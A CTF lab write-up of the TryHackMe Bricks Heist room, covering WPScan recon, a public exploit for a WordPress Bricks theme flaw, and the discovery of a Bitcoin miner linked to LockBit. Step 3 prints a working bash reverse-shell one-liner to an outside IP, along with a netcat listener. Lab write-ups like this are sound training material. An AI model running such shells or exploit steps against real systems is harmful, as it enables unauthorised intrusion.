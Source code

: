 # Documentation

### Step 1: Recon & Initial Investigation

  - Upon entering the TryHack3M: Bricks Heist room, I started both the AttackBox and the victim system.
  
  - The first instructions state to add the IP to the /etc/hosts file within the AttackBox.
    
  - To do this, I first used the command "cat /etc/hosts" to see what was already in the file.
  
  - I then entered the command, "sudo nano /etc/hosts" to open the file as a .txt document for editing.
  
  - I added a new line under the IP 127.0.1.1, the new line reads, "10.10.240.33 (tab) bricks.thm".
  
  - Since the instructions wanted this IP added to the hosts file, I theorized that it was a webpage. 
  
  - I tested this theory by opening Mozilla Firefox and entering "https://bricks.thm" into the search bar and a webpage loaded that had the title, "Brick by Brick!" with a photo of bricks.
  
  - I decided to investigate the source code of the webpage using CTRL+U.
  
  - I noticed multiple references of "wp-", leading me to believe it was referencing WordPress, so I decided to try WPScan.

  - I opened the terminal and ran the command for WPScan.
    ```bash
    wpscan --url https://bricks.thm/
    ```
      - The scan aborted, "url seems to be down, SSL peer certificate or SSH remote key was not OK".
      - Retried scan while disabling the tls certificate check.
        ```bash
         wpscan --url https://bricks.thm/ --disable-tls-checks
        ```
        
  - The scan ran successfully, the results showed the style "bricks" for WordPress, and the version was 1.9.5.

  - I used Google to search for "bricks 1.9.5" and the results showed that this was a vulnerable version of bricks, and there was an exploit available for this vulnerability (CVE-2024-25600) on GitHub.

    ### Step 2: Exploitation

  - I copied the raw exploit code for the bricks version 1.9.5 vulnerability from GitHub and pasted it into a nano .txt file titled, "shell.py".

  - Opened a terminal and ran the command, ```python3 shell.py -u https://bricks.thm```
    - There was an error running the script, a few modules needed to be installed first.
      - Installed rich module
        ``` bash
        pip3 install rich
        ```
        - Retried the python script, another error occured.
          - Installed prompt-toolkit module
            ``` bash
            pip3 install prompt-toolkit
            ```
            - Retried the python script, yet another error occured.
              - Installed alive-progress module
                ``` bash
                pip3 install alive-progress
                ```
                - Ran python script, it finally worked and the vulnerability was confirmed to be present.
  
  ### Step 3: Exploring Initial Access

  - I ran the command "whoami" to discover who I was logged into.
      ``` bash
      whoami
      ```
    - Results: Apache

    - I ran the command "pwd" to discover where I was located within the file directories.
      ``` bash
      pwd
      ```
        - Results: /data/www/default

        - I attempted to change directories by using "cd /home"
          ``` bash
          cd /home
          ```
            - Results: Deprecated connection. This means that the shell we are using is unstable.
    
    -  I then attempted to set up a reverse shell to hopefully have access to a more stable shell.
      ``` bash
      bash -c 'exec bash -i &>/dev/tcp/10.10.96.228/4444 <&1'
      ```
    - Before executing the reverse shell command, I opened another terminal to set up a listener on port 4444.
    ``` bash
      nc -lvnp 4444
    ```
      - Executed the reverse shell command, the initial access shell closed and a new connection began within the terminal with the listener.
        
      - We then had a stable connection to the shell where we could further explore.
            - I began exploring by running the ``` bash ls ``` command to see what was within the current directory.
                - The results showed a list of .txt and .php files.

    - There were two .txt files that could be seen, one of which had a very long, odd name.
   
    - I used cat to open the file.
        ```bash
        cat 650c844110baced87e1606453b93f22a.txt
        ```
        - Within this file, the flag was found, answering the first question of the room.
        - There were a few other interesting files, such as wp-config.php, which shows hard-coded credentials for the phpMyAdmin page. We might come back to this             later.
     
  ## Step 4: Identifying the Suspicious Process
  
  - I had to use Google to find the command for Linux to show running processes on a system.
    ``` bash
    systemctl --type=service --state=running
    ```
    - Among the list of running services shown, I saw one that really stuck out, it was labeled as ubuntu.service and the description was "TRYHACK3M".
        - I used the cat command to look further into the process.
          ``` bash
          systemctl cat ubuntu.service
          ```
          - By doing this, I was able to see that the service was running from a directory located in /lib/NetworkManager/nm-inet-dialog.
              - This gave me the answer to question two for the room.
                
          - I changed directories to /lib/NetworkManager to investigate further.
            ``` bash
            cd /lib/NetworkManager
            ```
          - I used the ls command to attempt to discover other files located within this directory, I wanted to see more information so I used the command ls -l.
            ``` bash
            ls -l
            ```
            - Within this list, there was one file that had read-only permissions, named inet.conf.
              
            - I tried the cat command on the inet.conf file, but it was just a lot of lines repeating the same things, "2024-04-11 10:53:02, 04, 06, 08... [*]                   Miner()" etc. This led me to think that this process could be some sort of crypto miner and its logs.
            
            - To get a better idea of what exactly was inside of this process, I decided to use the command head, instead of cat.
              ``` bash
              head inet.conf
              ```
              - Doing this confirmed my suspicions of this being a crypto miner, it is a Bitcoin Miner to be exact, and this is where the logs could be found. This gave me the answer to question four.
                
              - This also confirmed that the ubuntu.service process was affiliated with the suspicious process, giving me the answer for question three.
                
- Using the head command, I also was able to find an ID. I thought it might have been encoded, so I used Google to find a website to quickly decode it.
  
    - I was able to find a website called CyberChef. I copied and pasted the ID into the input and hit the magic wand since I wasn't sure exactly what it was             encoded using.
      
      - At the bottom of the output box, there was a counter to see how many characters were in the output. The output was 85 characters long.
        
          - Since it's an ID for a Bitcoin Miner, I searched on Google to see how long Bitcoin wallet addresses are, the results said they are between 26 and 35                 characters.
            
              - I decided to put the decoded ID into nano to try different combinations. The string of characters was odd, so I couldn't break it into 2 even                       strings.
                
              - I realized it was almost the same string of characters, one just had an extra character. I copied the shorter string and pasted it into a website                   I found using Google to check the status of Bitcoin wallets.
            
  ## Step 5: Investigating the BTC Address

  - The website confirmed the address as a Bitcoin Wallet and also showed the transaction logs, giving me the answer for question five in this room,                   bc1qyk79fcp9hd5kreprce89tkh4wrtl8avtl67qa.
    
  - This wallet had 8 transactions listed.
    
  - Received 15.53073303 BTC.
    
  - Sent 15.53073303 BTC.
    
  - This wallet has moved a total volume of 31.06146606 BTC.
    
  - The current value of the wallet is 0 BTC.
    
      - I used Google to search for the BTC wallet address that this wallet received money from to see if anything would come up.
   
      - A few different websites popped up, I decided to click one and do a little reading.
   
          - This wallet is currently under sanctions for being connected to the LockBit ransomware. This gave me my final answer for this room.

